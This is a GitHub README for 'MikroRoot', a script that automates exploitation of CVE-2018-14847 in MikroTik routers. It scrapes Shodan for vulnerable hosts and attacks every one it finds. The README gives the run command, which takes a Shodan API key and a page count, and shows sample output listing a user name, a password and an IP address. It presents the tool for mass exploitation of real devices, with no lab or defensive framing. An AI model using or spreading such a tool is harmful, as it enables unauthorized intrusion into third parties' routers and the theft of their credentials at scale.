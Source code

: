 <!-- GitAds-Verify: N8282P1UZO6YFBGQP324574DF5B6ADJH -->

# MikroRoot
Automated version of CVE-2018-14847. It will scrape shodan for vulnerable host and then try to exploit them.

# How to use      
Note that this script will NOT run with Python2.x. Use only Python 3+       

MikroRoot:        
`python3 MikroRoot.py -k SHODAN_KEY -p page count`           
`User: ncss`        
`Pass: ncss!@#2018`     
`IP: 1.2.3.4`         

# Arguments       
**-p** page count to scrape       
**-k** Shodan key       
        
# Author of exploit    
**https://github.com/BasuCert/WinboxPoC**   

## GitAds Sponsored
[![Sponsored by GitAds](https://gitads.dev/v1/ad-serve?source=syrex1013/mikroroot@github)](https://gitads.dev/v1/ad-track?source=syrex1013/mikroroot@github)


